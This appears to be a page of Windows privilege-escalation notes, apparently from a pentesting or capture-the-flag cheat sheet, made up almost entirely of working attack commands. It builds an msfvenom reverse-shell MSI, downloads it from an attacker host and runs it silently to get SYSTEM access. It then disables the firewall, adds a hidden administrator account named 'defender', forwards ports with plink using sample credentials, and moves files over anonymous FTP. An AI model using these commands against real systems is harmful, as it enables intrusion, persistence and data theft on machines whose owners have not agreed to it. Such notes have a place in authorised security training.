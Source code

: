 AlwaysInstalledElevated - RottenTomato   
Follow https://ed4m4s.blog/privilege-escalation/windows/always-install-elevated and verify that AlwaysInstallElevated is set to 1 and created a reverse shell using msfvenom and run the payload and capture the NT Authority System reverse shell:

```
# Windows - Verifying exploit path
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Kali - Window 1
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<your ip> LPORT=1337 -f msi -o reverse.msi
python3 -m http.server 9000
# or sudo impacket-smbserver a .

# Kali - Window 2
sudo nc -nlvp 1337

# Windows - Run Exploit
curl http://10.10.14.116:9000/reverse.msi -o reverse.msi
# or copy \\<your ip>\reverse.msi c:\full\path\reverse.msi
msiexec /quiet /qn /i reverse.msi
```

Turn off firewall and create a backup account:
```
NetSh Advfirewall set allprofiles state off
net user defender password1$ /add
net localgroup administrators defender /add
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

#Use any tool to log in remotely
wmiexec.py defender@$IP
```

Port forward using plink (Example: Have WinLogOn creds but can't winexe since port 445 is only available internal):
```
# Local setup
apt install ssh
vim /etc/ssh/sshd_config # Allow root to ssh
service ssh restart

# Download 32 or 64 version: https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
## Download to remote windows machine
plink.exe -l <your username:root> -pw  <your ssh password:toor> -R 445:127.0.0.1:445 <your ip: 10.10.1.1>
## Linux shell should open
winexe -U Administrator%Password1! //127.0.0.1 "cmd.exe"
```

Transfer files from remote to local via FTP:
```
# Locally
python -m pyftpdlib -p 21 --write
# Remote
ftp <your ip> # anonymous:anonymous
put filename.c
```
